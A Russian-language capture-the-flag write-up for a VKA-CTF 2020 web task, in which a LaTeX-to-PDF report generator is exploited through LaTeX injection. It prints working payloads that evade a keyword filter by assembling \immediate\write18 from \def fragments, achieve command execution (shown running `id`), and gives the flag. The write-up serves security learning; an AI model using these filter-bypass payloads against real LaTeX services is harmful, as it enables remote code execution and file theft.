

## Генератор рапортов

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Генератор рапортов | Web | КМБ |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> \- Товарищ майор, нам надоело писать рапорта вручную. Разрешите использовать наш новый [сервис](https://generate-pdf.vkactf.tk) для этого?
>
> \- А он безопасен?
>
> \- Конечно, можете сами проверить!

### Решение



Перед отправкой текста на сервер он изменяется на стороне клиента (это можно заметить, используя `BurpSuite` или найдя файл `main.js`)

Синтаксис данного текста напоминает LaTeX, а он уязвим к произвольному чтению файлов, а также к RCE

Пробуя ввести `input` или `include` сервер вместо успешной генерации PDF файла отвечает `Мне показалось?`, а значит он фильтрует содержимое текста по ключевым словам (в том числе и `immediate` и `write18`, а также `loop` и `repeate`, что запрещает чтение многострочного файла)

Используем конструкцию `/def`, чтобы собрать наш payload "по кусочкам"

```latex
\def \imm {\string\imme}
\def \diate {diate}
\def \eighteen {\string18}
\def \wwrite {\string\write\eighteen}
\def \args {\string{id | base64 > test.tex\string}}
\def \inp {\string\in}
\def \iput {put}
\def \cmd {\string{test.tex\string}}

\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{\imm\diate\wwrite\args\inp\iput\cmd}
\closeout\outfile
```

Отправив данную нагрузку мы создадим файл `cmd.tex` с содержимым
```latex
\immediate\write18{id | base64 > test.tex}\input{test.tex}
```

Используем следующую нагрузку, чтобы прочитать этот файл и исполнить записанную в нём команду
```latex
\newread\file
\openin\file=cmd.tex
\read\file to\line
\text{\line}
\closein\file
```

Декодируем полученый ответ и получаем
```bash
uid=1001(pwner) gid=1001(pwner) groups=1001(pwner)
```

Используя эти методы находи флаг в корне приложения

**Флаг:**

>vka{u53_n0_5h311_35c4p3_1n5734d_0f_814ck1157}